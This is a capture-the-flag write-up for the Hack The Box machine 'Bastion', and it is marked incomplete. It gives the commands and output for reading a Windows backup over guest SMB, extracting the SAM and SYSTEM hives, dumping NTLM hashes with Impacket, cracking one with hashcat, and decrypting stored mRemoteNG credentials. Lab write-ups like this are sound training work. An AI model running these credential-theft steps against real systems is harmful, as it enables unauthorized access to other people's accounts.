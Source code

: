 ```yaml
---
Title: Bastion HTB
Rating: Medium
OS: Windows
---
```

*This article is incomplete*


# Bastion HTB

We'll start by enumerating the machine and finding that it is hosting some shares with Guest access:
```bash
└─$ smbclient -L 10.10.10.134 -N

  Sharename       Type      Comment
  ---------       ----      -------
  ADMIN$          Disk      Remote Admin
  Backups         Disk      
  C$              Disk      Default share
  IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.134 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Jumping in to the Backups share, we can see that it's taken a full virual disk image backup and is storing it here:
```bash
smb: \WindowsImageBackup\L4mpje-PC\> cd "Backup 2019-02-22 124351"
smb: \WindowsImageBackup\L4mpje-PC\Backup 2019-02-22 124351\> dir
  .                                  Dn        0  Fri Feb 22 20:45:32 2019
  ..                                 Dn        0  Fri Feb 22 20:45:32 2019
  9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd     An 37761024  Fri Feb 22 20:44:03 2019
  9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd     An 5418299392  Fri Feb 22 20:45:32 2019
  BackupSpecs.xml                    An     1186  Fri Feb 22 20:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_AdditionalFilesc3b9f3c7-5e52-4d5e-8b20-19adc95a34c7.xml     An     1078  Fri Feb 22 20:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Components.xml     An     8930  Fri Feb 22 20:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_RegistryExcludes.xml     An     6542  Fri Feb 22 20:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer4dc3bdd4-ab48-4d07-adb0-3bee2926fd7f.xml     An     2894  Fri Feb 22 20:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer542da469-d3e1-473c-9f4f-7847f01fc64f.xml     An     1488  Fri Feb 22 20:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writera6ad56c2-b509-4e6c-bb19-49d8f43532f0.xml     An     1484  Fri Feb 22 20:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerafbab4a2-367d-4d15-a586-71dbb18f8485.xml     An     3844  Fri Feb 22 20:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerbe000cbe-11fe-4426-9c58-531aa6355fc4.xml     An     3988  Fri Feb 22 20:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml     An     7110  Fri Feb 22 20:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writere8132975-6f93-4464-a53e-1050253ae220.xml     An  2374620  Fri Feb 22 20:45:32 2019

    7735807 blocks of size 4096. 2762797 blocks available
smb: \WindowsImageBackup\L4mpje-PC\Backup 2019-02-22 124351\>
```

We can mount the SMB share and file system onto our machine for further access.
GustMount will allow us to attach the VHD file system onto our computer through the mounted SMB share.
```bash
└─$ sudo mount -t cifs //10.10.10.134/Backups -o user=Guest,password= /mnt/base
└─$ guestmount -a "/mnt/base/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd" --inspector --ro /mnt/vhd
```
I'll do a quick enumeration of the users home profile using `tree` and piping it to my home directory. Ultimately there is nothing of real interest.
```bash
└─# tree >> /home/alex/Documents/HTB/Bastion/L4mpje_User.txt
```
We can grab both the SAM & SYSTEM registry out of the System32 working folder
```bash
---snip---
-rwxrwxrwx 1 root root   262144 Feb 22  2019 SAM
---snip---
-rwxrwxrwx 1 root root  9699328 Feb 22  2019 SYSTEM
---snip---
```
Then we'll use Impacket to dump the user hashes out of the registry
```bash
└─$ impacket-secretsdump -system SYSTEM -sam SAM LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Cleaning up...
```
Now use HashCat and RockYou to crack the user hash
```bash
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 26112010952d963c8dc4217daec986d9
Time.Started.....: Wed Jan 29 08:17:13 2025, (1 sec)
Time.Estimated...: Wed Jan 29 08:17:14 2025, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  8203.3 kH/s (0.39ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 9404416/14344384 (65.56%)
Rejected.........: 0/9404416 (0.00%)
Restore.Point....: 9388032/14344384 (65.45%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: busybody1 -> bulletforme
Hardware.Mon.#1..: Temp: 99c Util: 28%

Started: Wed Jan 29 08:17:12 2025
Stopped: Wed Jan 29 08:17:16 

└─$ hashcat user.hash -m 1000 /usr/share/wordlists/rockyou.txt --force --show
26112010952d963c8dc4217daec986d9:bureaulampje
```

After some quick enumeration of the workstation, we can see that it's running mRemoteNG.
mRemote will store encrypted user credentials under the confCons.xml file in AppData. 
It's known that the encryption method used is weak, and tools have been created to crack the passwords.

I'll download a copy of the file and use a tool found on GitHub to extract the password. This will give me the Administrator password for the box:  
```bash
└─$ cp L4mpje@10.10.10.134:/\Users/\L4mpje/\AppData/\Roaming/\mRemoteNG/\confCons.xml ./confCons.xml
└─$ python3 mremoteng_decrypt.py confCons.xml
```

From here I'll jump on to the Deskotp and grab the root flag.
